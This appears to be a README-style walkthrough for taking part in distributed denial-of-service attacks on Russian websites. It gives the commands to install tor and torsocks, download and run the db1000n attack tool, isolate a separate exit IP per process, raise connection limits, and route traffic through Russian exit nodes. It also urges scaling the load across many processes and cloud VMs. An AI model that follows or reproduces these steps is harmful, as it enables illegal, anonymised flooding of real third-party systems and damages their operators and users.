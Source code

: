 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

- Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0) using db1000n in clean Ubuntu VM.
- Similar [demo](https://www.youtube.com/watch?v=QKLkvq8iNo0) of using tor  with wrk load test tool.
- In fact, you may run almost any command line tool with torsocks in front. Exceptions are ping/hping and other tools that use raw or udp sockets.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.21/db1000n_0.8.21_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

You should get something similar to the following (definitely with different IPs in your case):
```bash
$ torsocks curl -L jsonip.com
{"ip":"91.92.109.43","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.174.164","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"185.163.204.44","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.170.174","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated - due to `IsolatePID 1` option in torsocks, everything you start as separate process get separate nodes used, and as result separate IP address at the exit node.
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

There is also a bit simplier way to get specific counttry location.
Instead of specifiying strict nodes IP addresses, we can use mnemonic 
country code `{ru}` to specify the desired outgoing location we would like to get in:
```bash
# this is the most end of /etc/tor/torrc file, 
# above these lines are tons of custom config
# options mainly commented with sharp sign

ExitNodes {ru}
ConnLimit 32627
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
- [DNS over Tor](https://developers.cloudflare.com/1.1.1.1/other-ways-to-use-1.1.1.1/dns-over-tor/)
